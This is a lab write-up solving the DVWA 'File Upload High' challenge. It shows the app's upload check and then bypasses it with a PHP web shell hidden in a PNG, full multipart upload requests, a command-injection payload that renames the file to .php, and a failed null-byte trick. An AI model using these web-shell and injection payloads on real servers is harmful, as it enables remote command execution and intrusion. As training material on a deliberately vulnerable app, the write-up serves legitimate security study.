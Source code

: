 #+TITLE: DVWA - File Upload High
#+AUTHOR: Leonardo Tamiano

* Description
  In this challenge we increase our checks as follows

  - file extension
  - image size
  - image format

  #+begin_src php
 // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
  #+end_src
  
* Solution

** Embed php payload + File rename
   The first idea is to embedd malicious php code within the PNG
   image, and execute it later with a two step process.

   First we take any image and we embed a malicous backdoor

   #+begin_src php
<?php system($_GET['cmd']); ?>
   #+end_src

   For example the following request uploads a malicious ~image.png~
   containing php code

   #+begin_example
POST /vulnerabilities/upload/ HTTP/1.1
Host: evil
Content-Length: 992
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygf1OyZBiBbqoH3zW
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/upload/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=j1bd6j1ea8u0d7cqavtcq7r5a1; security=low
Connection: close

------WebKitFormBoundarygf1OyZBiBbqoH3zW
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundarygf1OyZBiBbqoH3zW
Content-Disposition: form-data; name="uploaded"; filename="image.png"
Content-Type: image/png

PNG

   IHDR   i   <   eÁ~  {IDATxìØôh Æñ÷lÛ¶mÛúº*Ö:gMp¶mÅÙ6fÚµà[»÷dÕkÌüÆå3¥erâûþº8IáuüZ	Õ¨B
ñr±V"Æ/fEl±7ÁÈÀmø
­XZqV_Æb>ÌO[Çô´-WWlWKu\5Íö´'¢fò>Û¨É|vtÐ§ám¾.KYb,o%ìkàaI)ÄQ±á¸Æ¬ô8ÇÕ®·]õy^ÿzøãP!ËÓÎú0¸ÄHLûP<nN¸ Kúã¬U¬ÿv´ÃúÁ¶´ÿ'nò^v±ëGùúf±Õ§ÿê~â*~¯ífÕ³-O½Òh²%}J¥è¿þr<ýjÛKÚb(æeOü±ÒCÇYR,Y*wlïQD7üeð³íê)oùÊJÓ®@F&c%·+6Xr«cåç°¥ý¸e¹§Åx¶Ç
´-2p>Ö'¼%P²,[ù_âîÂÿ¡)Z¨%­/á2¬1B~hEËÕ³Wk^JQ-¶k9ìæ(ÅÐ¶PY'àÕ ¦Ò{yÆFõäR@¯ 9ÜÎhD4WÏ÷rÖÀ5(G5R±
Ät¼Þj_JY·@@s¢y|>ß	
<?php system($_GET['cmd']); ?>

------WebKitFormBoundarygf1OyZBiBbqoH3zW
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundarygf1OyZBiBbqoH3zW--

   #+end_example
   
   Afte we upload it we can use other vulnerabilities in the app to
   rename the file from png to php. For example, we can use the
   command injection vulnerability to rename the png file into a php
   file with the following payload

   #+begin_example
|mv ../../hackable/uploads/image.png ../../hackable/uploads/image.php
   #+end_example

   and from this we can access the php shell at the following URL

   http://evil/hackable/uploads/image.php?cmd=whoami  

** Embed php payload + LFI
   Another idea is to combine the file upload bypass with a local file inclusion. In particular

   - We use the file upload bypass to get the malicious php code within the remote web server.

   - We then use the LFI to force the php server to execute that code
     by loading it into the server's memory.
   
** Null byte injection (not working)
   We start off with a simple php backdoor saved onto a file named ~backdoor.php~

   #+begin_src php
<?php system($_GET['cmd']); ?>
   #+end_src   

   we then add at the start the signature of a JPEG file

   #+begin_example
ffd8 ffef 3c3f 7068 7020 7379 7374 656d  ....<?php system
2824 5f47 4554 5b27 636d 6427 5d29 3b20  ($_GET['cmd']); 
3f3e 0a                              
   #+end_example

   and we rename our file to

   #+begin_example
cp backdoor.php backdoor.jpeg
   #+end_example

   and at this with the ~file~ command we have

   #+begin_example
$ file backdoor.jpeg 
backdoor.jpeg: JPEG image data
   #+end_example

   We upload this file aaand it does not work.

   ----------------

   We then try it with another extension, namely the PNG
   extension. All these extensions can be found in the following link

   https://en.wikipedia.org/wiki/List_of_file_signatures

   The PNG extension is formed from the following bytes

   #+begin_example
89 50 4E 47 0D 0A 1A 0A
   #+end_example

   This time we're not able to bypass the ~file~ command

   #+begin_example
$ file backdoor.png 
backdoor.png: data
   #+end_example
   
   However we are able to upload it to the form with the following request

   #+begin_example
POST /vulnerabilities/upload/ HTTP/1.1
Host: evil
Content-Length: 433
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8FrFs9Pwjq8rXIDk
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/upload/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=j1bd6j1ea8u0d7cqavtcq7r5a1; security=high
Connection: close

------WebKitFormBoundary8FrFs9Pwjq8rXIDk
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundary8FrFs9Pwjq8rXIDk
Content-Disposition: form-data; name="uploaded"; filename="backdoor.png"
Content-Type: image/png

PNG

<?php system($_GET['cmd']); ?>

------WebKitFormBoundary8FrFs9Pwjq8rXIDk
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundary8FrFs9Pwjq8rXIDk--

   #+end_example

   At this point we can try to access the file within the saved path,
   however we quickly see that even if we access the file we're still
   not able to execute it.

   http://evil/hackable/uploads/backdoor.png

   Now, remember how the php code extracts the extension from the file to perform the check

   #+begin_src php
// File information
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

// Is it an image?
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) && ...
   #+end_src
   
   and remember how the php code decides on the final target path

   #+begin_src php
// Where are we going to be writing to?
$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
   #+end_src

   The idea is to perform a ~NULL byte injection~ attack so that the
   ~basename~ function sees a file ending with ~.php~, while the ~strrpos~
   function sees the last ~.~ to point to a ~.png~. The request is as follows

   #+begin_example
------WebKitFormBoundary8FrFs9Pwjq8rXIDk
Content-Disposition: form-data; name="uploaded"; filename="backdoor.php%00.jpg"
Content-Type: image/png
   #+end_example

   however this also does not work.

